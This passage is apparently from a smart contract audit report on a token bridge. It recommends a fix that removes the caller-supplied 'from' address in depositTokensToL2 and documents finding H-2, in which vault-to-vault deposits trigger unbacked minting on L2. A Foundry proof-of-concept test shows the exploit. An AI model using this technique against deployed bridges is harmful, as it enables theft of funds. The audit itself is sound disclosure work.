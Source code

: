 Consider modifying the `depositTokensToL2` function so that the caller cannot specify a `from` address.

```diff
- function depositTokensToL2(address from, address l2Recipient, uint256 amount) external whenNotPaused {
+ function depositTokensToL2(address l2Recipient, uint256 amount) external whenNotPaused {
    if (token.balanceOf(address(vault)) + amount > DEPOSIT_LIMIT) {
        revert L1BossBridge__DepositLimitReached();
    }
-   token.transferFrom(from, address(vault), amount);
+   token.transferFrom(msg.sender, address(vault), amount);

    // Our off-chain service picks up this event and mints the corresponding tokens on L2
-   emit Deposit(from, l2Recipient, amount);
+   emit Deposit(msg.sender, l2Recipient, amount);
}
```

### [H-2] Calling `depositTokensToL2` from the Vault contract to the Vault contract allows infinite minting of unbacked tokens

`depositTokensToL2` function allows the caller to specify the `from` address, from which tokens are taken.

Because the vault grants infinite approval to the bridge already (as can be seen in the contract's constructor), it's possible for an attacker to call the `depositTokensToL2` function and transfer tokens from the vault to the vault itself. This would allow the attacker to trigger the `Deposit` event any number of times, presumably causing the minting of unbacked tokens in L2.

Additionally, they could mint all the tokens to themselves. 

As a PoC, include the following test in the `L1TokenBridge.t.sol` file:

```javascript
function testCanTransferFromVaultToVault() public {
    vm.startPrank(attacker);

    // assume the vault already holds some tokens
    uint256 vaultBalance = 500 ether;
    deal(address(token), address(vault), vaultBalance);

    // Can trigger the `Deposit` event self-transferring tokens in the vault
    vm.expectEmit(address(tokenBridge));
    emit Deposit(address(vault), address(vault), vaultBalance);
    tokenBridge.depositTokensToL2(address(vault), address(vault), vaultBalance);

    // Any number of times
    vm.expectEmit(address(tokenBridge));
    emit Deposit(address(vault), address(vault), vaultBalance);
    tokenBridge.depositTokensToL2(address(vault), address(vault), vaultBalance);

    vm.stopPrank();
}
```
